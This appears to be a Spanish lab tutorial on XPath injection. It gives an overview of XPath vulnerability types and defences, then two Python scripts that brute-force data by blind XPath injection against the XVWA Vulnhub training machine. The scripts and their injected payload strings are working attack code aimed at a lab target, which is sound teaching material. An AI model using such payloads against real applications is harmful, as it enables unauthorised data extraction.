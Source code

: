 **XPath** es un lenguaje de consultas utilizado en **XML** que permite buscar y recuperar información específica de **documentos XML**. Sin embargo, al igual que otros lenguajes de programación y consultas, XPath también puede tener **vulnerabilidades** que los atacantes pueden aprovechar para comprometer la seguridad de una aplicación web.

Las **vulnerabilidades XPath** son aquellas que se aprovechan de las debilidades en la implementación de consultas XPath en una aplicación web. A continuación, se describen algunos tipos de vulnerabilidades comunes en XPath:

-   **Inyección XPath**: los atacantes pueden utilizar inyección de código malicioso en las consultas XPath para alterar el comportamiento esperado de la aplicación. Por ejemplo, pueden agregar una consulta maliciosa que recupere toda la información del usuario, incluso información confidencial como contraseñas.
-   **Fuerza bruta de XPath**: los atacantes pueden utilizar técnicas de fuerza bruta para adivinar las rutas de XPath y recuperar información confidencial. Esta técnica se basa en intentar diferentes rutas XPath hasta encontrar una que devuelva información confidencial.
-   **Recuperación de información del servidor**: los atacantes pueden utilizar consultas XPath maliciosas para obtener información sobre el servidor, como el tipo de base de datos, la versión de la aplicación, etc. Esta información puede ayudar a los atacantes a planear ataques más sofisticados.
-   **Manipulación de respuestas XPath**: los atacantes pueden manipular las respuestas XPath de la aplicación web para obtener información adicional o alterar el comportamiento de la aplicación. Por ejemplo, pueden modificar una respuesta XPath para crear una cuenta de usuario sin permiso.

Para protegerse contra las vulnerabilidades de XPath, es importante validar todas las entradas de usuario y evitar la construcción dinámica de consultas XPath. Además, se recomienda restringir los permisos de acceso a los recursos de la aplicación web y mantener actualizado el software y los sistemas operativos. Por último, se recomienda utilizar herramientas de análisis de seguridad y realizar pruebas de penetración regulares para identificar y corregir cualquier vulnerabilidad en la aplicación web.

El enlace directo de descarga a la máquina XVWA 1 de Vulnhub,  para explotar las vulnerabilidades existentes en XPath:

-   **XVWA 1**: [https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/](https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/)

Script en python para aprovechar la vulnerabilidad de Xpath Injection del  laboratorio

```python
#!/usr/bin/python3
   2   │ from pwn import *
   3   │ 
   4   │ import requests
   5   │ import signal
   6   │ import time
   7   │ import sys
   8   │ import pdb
   9   │ import string
  10   │ 
  11   │ def def_hadler(sig, frame):
  12   │     print("\n\n[!] Saliendo...\n")
  13   │     sys.exit(1)
  14   │ 
  15   │ #Ctrl+c
  16   │ signal.signal(signal.SIGINT, def_hadler)
  17   │ 
  18   │ 
  19   │ #Variables globales
  20   │ main_url = "http://10.47.1.247/xvwa/vulnerabilities/xpath/" 
  21   │ characters = string.ascii_letters
  22   │ 
  23   │ def xPathInjection():
  24   │     
  25   │     data = ""
  26   │ 
  27   │     p1 = log.progress("Fuerza bruta")
  28   │     p1.status("Iniciando el ataque fuerza bruta..")
  29   │     time.sleep(2)
  30   │     
  31   │     p2 = log.progress("Data")
  32   │ 
  33   │     for first_position in range(1,6):
  34   │         for second_position in range (1,21):
  35   │             for character in characters:
  36   │ 
  37   │                 post_data = {
  38   │                     'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (first_position, second_position, character),
  39   │                     'submit': ''
  40   │                 }
  41   │ 
  42   │                 r = requests.post(main_url, data=post_data)
  43   │ 
  44   │                 if len(r.text) != 8691 and len(r.text) != 8692:
  45   │                     data += character
  46   │                     p2.status(data)
  47   │                     break
  48   │                  
  49   │          
  50   │         if first_position != 5: 
  51   │             data += ":"        
  52   │ 
  53   │          
  54   │ 
  55   │     p1.status("Ataque de fuerza bruta ha concluido")
  56   │     p2.success(data)
  57   │ 
  58   │ if __name__ == "__main__":
  59   │      xPathInjection()
  60   │ 
```

 Mostrar el mensaje oculto de la data
```python
#!/usr/bin/python3
   2   │ from pwn import *
   3   │ 
   4   │ import requests
   5   │ import signal
   6   │ import time
   7   │ import sys
   8   │ import pdb
   9   │ import string
  10   │ 
  11   │ def def_hadler(sig, frame):
  12   │     print("\n\n[!] Saliendo...\n")
  13   │     sys.exit(1)
  14   │ 
  15   │ #Ctrl+c
  16   │ signal.signal(signal.SIGINT, def_hadler)
  17   │ 
  18   │ 
  19   │ #Variables globales
  20   │ main_url = "http://10.47.1.247/xvwa/vulnerabilities/xpath/" 
  21   │ characters = string.ascii_letters + ' '
  22   │ 
  23   │ def xPathInjection():
  24   │     
  25   │     data = ""
  26   │ 
  27   │     p1 = log.progress("Fuerza bruta")
  28   │     p1.status("Iniciando el ataque fuerza bruta..")
  29   │     time.sleep(2)
  30   │     
  31   │     p2 = log.progress("Data")
  32   │ 
  33   │     for first_position in range(1,6):
  34   │         for character in characters:
  35   │ 
  36   │             post_data = {
  37   │                  'search': "1' and substring(Secret,%d,1)='%s" % (first_position, character),
  38   │                  'submit': ''
  39   │             }
  40   │ 
  41   │             r = requests.post(main_url, data=post_data)
  42   │ 
  43   │             if len(r.text) != 8676 and len(r.text) != 8677:
  44   │                 data += character
  45   │                 p2.status(data)
  46   │                 break  
  47   │ 
  48   │     p1.status("Ataque de fuerza bruta ha concluido")
  49   │     p2.success(data)
  50   │ 
  51   │ if __name__ == "__main__":
  52   │      xPathInjection()
```
